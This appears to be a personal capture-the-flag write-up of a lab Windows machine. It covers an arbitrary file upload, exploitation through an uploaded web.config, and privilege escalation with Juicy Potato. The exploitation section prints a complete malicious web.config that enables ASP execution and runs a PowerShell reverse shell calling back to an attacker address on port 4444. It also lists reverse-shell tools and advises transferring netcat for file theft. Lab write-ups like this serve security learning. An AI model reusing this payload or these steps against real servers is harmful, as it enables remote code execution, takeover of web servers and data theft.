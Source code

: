 ## Takeaway
- Different ways to get PowerShell reverse shell
	- 1. Invoke-PowerShellTcp.ps1 (nishang)
	- 2. Invoke-ConPtyShell.ps1
- `netcat` can be very useful if your initial reverse shell is behaving weirdly. One needs to transfer `netcat` to download file from victim machine anyway so why not just transfer upon initial foothold.
## Metadata
- Arbitrary File Upload aspx file identified by `gobuster`.![[Pasted image 20231219184216.png]]![[Pasted image 20231219184239.png]]
- Files uploaded can be found under  `http://10.10.10.93/uploadedfiles`.
#### 
- <mark>Exploitation</mark>
	- Upload a reverse shell payload named `web.config` since directly upload of file with extension `.aspx` is disallowed.
	```bash
	<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%@ Language=VBScript %>
<%
  call Server.CreateObject("WSCRIPT.SHELL").Run("powershell.exe -c $client = New-Object System.Net.Sockets.TCPClient('10.10.14.7',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()")
%>
	```
	- Execute payload by navigating to `http://10.10.10.93/uploadedfiles/web.config`.
- User merlin has dangerous `SeImpersonatePrivilege` enabled.![[Pasted image 20231220214831.png]]
- <mark>Post-Exploitation</mark>'
	- Use `juicy potato` to escalate privileges![[Pasted image 20231220215012.png]]![[Pasted image 20231220215451.png]]
	```bash
	https://github.com/ohpe/juicy-potato/tree/master
	```